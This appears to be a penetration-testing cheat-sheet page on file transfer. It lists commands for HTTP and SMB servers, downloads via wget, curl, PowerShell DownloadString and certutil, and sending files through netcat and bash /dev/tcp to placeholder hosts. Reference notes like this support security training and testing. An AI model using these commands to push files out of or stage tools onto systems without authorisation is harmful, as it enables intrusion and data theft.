 ```yaml
---
icon: arrow-right-arrow-left
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: false
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# File Transfer

## Integrity verification

{% tabs %}
{% tab title="Linux" %}
{% code overflow="wrap" %}
```sh
md5sum <file>
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
{% code overflow="wrap" %}
```sh
certutil -hashfile <file> md5
```
{% endcode %}
{% endtab %}
{% endtabs %}

## HTTP

### HTTP Server

{% tabs %}
{% tab title="Python3" %}
```sh
python3 -m http.server <port>
```
{% endtab %}

{% tab title="Python2" %}
```sh
python2 -m SimpleHTTPServer <port>
```
{% endtab %}

{% tab title="PHP" %}
```sh
php -S 0:<port>
```
{% endtab %}
{% endtabs %}

### Download

{% tabs %}
{% tab title="Wget" %}
{% code overflow="wrap" %}
```bash
wget <url>
```
{% endcode %}
{% endtab %}

{% tab title="Curl" %}
{% code overflow="wrap" %}
```bash
curl -s <url> -o <output>
```
{% endcode %}
{% endtab %}

{% tab title="PowerShell" %}
{% code overflow="wrap" %}
```powershell
(New-Object Net.WebClient).DownloadString('<url>') > <output>
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
Invoke-WebRequest <url> -o <output>
```
{% endcode %}
{% endtab %}

{% tab title="CMD" %}
{% code overflow="wrap" %}
```sh
certutil -urlcache -split -f <url> <output>
```
{% endcode %}
{% endtab %}
{% endtabs %}

## SMB

### SMB Server

```sh
smbserver.py <share> $(pwd) -smb2support [-username user -password pass]
```

### Download

{% tabs %}
{% tab title="Linux" %}
{% code overflow="wrap" %}
```sh
smbclient -U 'user[%pass]' //<ip>/<share> -c "get <file> <output>"
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
{% code overflow="wrap" %}
```sh
# mount smb Share to drive
net use z: \\<ip>\<share> [/user:user pass]
# copy from share
copy \\<ip>\<share>\<file> <output>
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Netcat

{% tabs %}
{% tab title="Send" %}
{% code overflow="wrap" %}
```sh
nc -nlvp <port> < <file>
```
{% endcode %}
{% endtab %}

{% tab title="Recieve" %}
{% code overflow="wrap" %}
```sh
nc -nlvp <port> > <output>
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Bash

{% tabs %}
{% tab title="Send" %}
{% code overflow="wrap" %}
```sh
cat <file> > /dev/tcp/<ip>/<port>
```
{% endcode %}
{% endtab %}

{% tab title="Recieve" %}
{% code overflow="wrap" %}
```sh
cat < /dev/tcp/<target>/<port> > <output>
```
{% endcode %}
{% endtab %}
{% endtabs %}
